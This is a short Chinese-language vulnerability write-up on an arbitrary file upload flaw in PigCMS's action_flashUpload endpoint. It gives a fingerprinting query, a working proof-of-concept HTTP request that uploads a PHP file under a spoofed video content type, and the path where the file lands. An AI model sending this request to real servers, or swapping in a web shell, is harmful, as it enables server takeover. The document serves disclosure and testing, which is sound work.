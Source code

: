 # PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

<a-checkbox checked>pigcms</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="PigCMS"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691722982834-8391fb00-7582-4fc7-95c5-2ebb2c4dcde6.png)

验证POC

```php
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691723050483-3c961b57-f018-46c5-a6e0-db9af809d26f.png)

```php
/cms/upload/images/2023/08/11/1691722887xXbx.php
```